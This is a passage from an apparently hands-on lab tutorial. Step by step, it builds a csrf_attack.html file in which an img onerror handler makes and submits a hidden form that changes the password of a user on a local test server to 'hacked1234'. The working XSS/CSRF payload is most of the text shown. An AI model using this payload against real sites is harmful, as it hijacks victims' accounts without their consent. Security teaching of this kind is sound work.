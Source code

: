 12. Now that you have created both a form and the input elements, you need to associate the input element as a child of the form. 
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
        i.value = 'hacked1234';

        f.appendChild(i);
    "/>
    ```

13. Next, associate the form to the DOM body
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
        i.value = 'hacked1234'

        f.appendChild(i);
        document.body.appendChild(f);
    "/>
    ```

14. Lastly, you want the form to be submitted once image fails to load
    ```html
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
        i.value = 'hacked1234'

        f.appendChild(i);
        document.body.appendChild(f);
        f.submit();
    "/>
    ```

15. Save `csrf_attack.html` file
    - In the top left corner, click `File`, then `Save` in the drop down menu; <br>or<br>
